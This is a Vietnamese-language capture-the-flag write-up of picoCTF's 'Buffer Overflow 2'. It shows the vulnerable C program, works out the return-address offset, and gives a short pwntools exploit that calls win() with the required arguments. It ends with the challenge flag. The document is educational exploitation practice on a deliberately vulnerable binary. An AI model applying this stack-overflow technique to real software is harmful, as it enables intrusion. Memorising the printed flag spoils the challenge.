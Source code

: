 # Buffer Overflow 2
Tiếp tục đến với chuỗi challenge `Buffer Overflow`, ở bài này thì ta có 2 file. Một file binary `vuln` và một file .c `vuln.c`.

Mở file `vuln.c` thì ta có thấy source code như sau:

``` c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 100
#define FLAGSIZE 64

void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xCAFEF00D)
    return;
  if (arg2 != 0xF00DF00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

Ta thấy dòng code gây nên lỗi `buffer overflow` như sau:

``` c
gets(buf);
```

Nhìn sơ qua thì ý tưởng cũng giống như bài `Buffer Overflow 1` nhưng lần này hàm `win()` yêu cầu hai tham số là `arg1` và `arg2`.

Và để lấy được flag thì ta phải gọi hàm `win()` với hai tham số `arg1 = 0xCAFEF00D` và `arg2 = 0xF00DF00D`. Thoáng nhìn qua thì có vẻ như bài này sẽ dùng kĩ thuật [ROP](https://ctf101.org/binary-exploitation/return-oriented-programming/). Nhưng cũng giống như bài `Buffer Overflow 1` ta cần dùng lệnh `checksec` để kiểm tra các cơ chế bảo mật được bật trong binary, ta thấy `PIE` không được bật nhưng bên cạnh đó thì đây là một `ELF 32` nên kĩ thuật ROP sẽ không được sử dụng giống như `ELF 64`.

Giống như bài `Buffer Overflow 1`, ta làm điều tương tự để ghi đè địa chỉ hàm `win()` lên địa chỉ trả về của hàm `vuln()`. Vấn đề ở đây là làm sao để `arg1 = 0xCAFEF00D` và `arg2 = 0xF00DF00D`. 

Đầu tiên thì ta tìm cách ghi đè địa chỉ hàm `win()` lên địa chỉ trả về của hàm `vuln()`. Ta có thể dùng `cyclic` để tạo chuỗi kí tự theo quy tắc tuần hoàn nhằm tìm ra `offset` dễ dàng hơn:

![image](https://github.com/user-attachments/assets/d5585dd3-8a49-4033-99de-fa4b7a472ed0)

Ta thấy địa chỉ trả về bị ghi đè bởi chuỗi 4 kí tự là `daab`. 

Với chuỗi này thì ta có được `offset` là `112`

``` bash
Qusy$ cyclic -l daab
112
```

Địa chỉ hàm `win()` được tìm thấy là `0x08049296`.

Giờ ta sẽ bắt tay vào việc làm cho hai tham số của hàm thỏa mãn điều kiện đã nói ở trên.

Đối với một tệp `ELF 32` thì khi một hàm được gọi:
- Các đối số sẽ được đẩy lên stack theo thứ tự từ phải qua trái. 
- Sau đó địa chỉ trả về của hàm sẽ được đẩy lên stack.

Vậy giờ sau khi ghi đè địa chỉ hàm `win()` lên địa chỉ trả về của hàm `vuln()` thành công thì ta sẽ tiếp tục nhập thêm 4 bytes nào đó để làm địa chỉ trả về của hàm `win()` sau đó là ghi đè giá trị 2 tham số tương ứng để hàm `win()` có thể in flag.

Thử nghiệm và đã thành công, ta có file exploit như sau:

``` python 
from pwn import *

payload = 112 * b'a' + b'\x96\x92\x04\x08' + 4 * b'a' + b'\x0D\xF0\xFE\xCA' + b'\x0D\xF0\x0D\xF0'
#p = process("./vuln")
p = remote("saturn.picoctf.net", 50190)
p.sendline(payload)
p.interactive()
```

Và ta có flag:

```
picoCTF{argum3nt5_4_d4yZ_27ecbf40}
```
